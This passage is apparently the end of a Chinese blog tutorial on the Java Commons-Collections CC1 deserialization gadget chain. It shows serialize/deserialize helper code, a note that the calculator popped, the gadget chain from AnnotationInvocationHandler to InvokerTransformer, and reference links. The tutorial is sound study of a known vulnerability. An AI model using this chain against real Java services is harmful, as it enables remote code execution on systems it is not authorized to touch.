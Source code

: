 ```java

        serialize(object);
        unSerialize("ser.bin");
    }

    public static void serialize(Object object) throws Exception {
        // 序列化对象
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    public static Object unSerialize(String fileName) throws Exception {
        // 反序列化对象
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(fileName));
        return ois.readObject();
    }
}
```

成功弹出计算器~

![image-20240312161318823](https://pic.mewhz.com/blog/image-20240312161318823.png)

**利用链**

>1. AnnotationInvocationHandler -> readObject();
>2. AbstractInputCheckedMapDecorator -> setValue();
>3. TransformedMap -> checkSetValue();
>4. InvokerTransformer -> transform();
>5. transform() -> invoke();

### 参考资料

[Java反序列化CommonsCollections篇(一) CC1链手写EXP](https://www.bilibili.com/video/BV1no4y1U7E1)

[Java反序列化Commons-Collections篇01-CC1链](https://drun1baby.top/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/)

[Apache Commons Collections包和简介](https://blinkfox.github.io/2018/09/13/hou-duan/java/commons/commons-collections-bao-he-jian-jie/)